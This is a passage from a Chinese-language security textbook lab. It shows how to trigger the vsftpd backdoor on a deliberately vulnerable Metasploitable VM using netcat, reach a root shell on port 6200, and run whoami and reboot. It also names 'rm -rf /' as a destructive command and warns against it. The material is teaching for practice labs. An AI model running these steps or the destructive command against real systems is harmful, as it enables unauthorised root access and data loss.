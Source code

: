 *图 1-14：Kali Linux 浏览器中的 Metasploitable 机器*

如果你能够看到网页，说明你的 Metasploitable 机器和 Kali Linux 机器已经正确连接到内网。

#### ***利用后门获取访问权限***

现在，我们将利用后门访问 Metasploitable 机器。使用 Netcat（`nc`），一个支持多种网络功能的命令行工具，连接到 FTP 服务器。在这里，我们将使用它来打开一个 TCP 套接字连接到服务器。（我们将在第三章中讨论 TCP 套接字。）

打开 Kali 机器上的终端并输入以下命令：

```
kali@kali:~$ nc <IPaddressofyourMetasploitablevirtual machine> 21
user Hacker:)
pass invalid
```

第一个命令末尾的值是端口号。FTP 服务器通常运行在 21 端口。我们将在第三章中讨论端口号的概念，但现在你可以将其理解为操作系统分配给程序的通信通道。程序 A 可能在 21 号通道上进行通信，而程序 B 则可能在 6200 号通道上进行通信。

现在你已经激活了与后门相关的 shell，打开一个新的终端窗口，输入以下命令连接到 Metasploitable 机器上应该运行的 6200 端口上的 shell：

```
kali@kali:~$ nc -v <IPaddressofyourMetasploitable virtualmachine> 6200
```

连接成功后，终端看起来似乎没有响应。但实际上并非如此，它只是等待你输入命令。输入`**ls**`命令列出当前目录中的所有文件。

现在你应该能够在 Kali Linux 终端中输入命令，并使其像在 Metasploitable 机器的终端中输入一样执行。例如，使用 shell 通过在 Kali 机器的终端中输入以下命令来重启机器，然后观察 Metasploitable 机器发生了什么：

```
whoami
reboot
```

如果攻击执行正确，Metasploitable 机器将重启。虽然重启机器看起来不那么危险，但拥有 root 权限的攻击者可以做更多事情；例如，通过运行命令`**rm -rf/**`删除服务器上的所有数据。不要在 Metasploitable 上运行这个命令！它将删除机器上的所有数据，你将不得不重新进行设置过程。

我们如何修复这个漏洞呢？新版的 vsftpd 已经识别并修复了这个问题，因此保护此服务器的最佳方法是更新 vsftpd。然而，Metasploitable 机器设计为易受攻击，因此未配置为支持更新。

